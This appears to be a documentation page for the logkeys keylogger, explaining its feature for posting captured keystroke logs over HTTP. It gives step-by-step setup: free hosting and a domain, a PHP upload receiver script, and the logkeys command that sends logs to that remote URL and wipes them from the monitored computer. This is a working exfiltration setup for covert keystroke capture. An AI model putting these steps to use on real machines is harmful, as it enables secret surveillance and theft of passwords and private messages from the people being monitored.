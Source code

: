 ![warning](./docs_warning.png)

# Post to HTTP #
A sample implementation:
  1. Get some [PHP web hosting](http://www.google.com/search?q=free+web+hosting), get [domain name](http://GetFreeDomain-Site.co.cc/list).
  1. Upload the following PHP script, name it "upload.php"
```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>
```
  1. Run logkeys with `--post-http=http://your.doma.in/upload.php` and it will upload log to specified URL every once it reaches `--post-size` in size (default 500KB). Note, the script above will overwrite "new.log" file every time. Also note that once the log is successfully sent, it is wiped from the monitored computer.

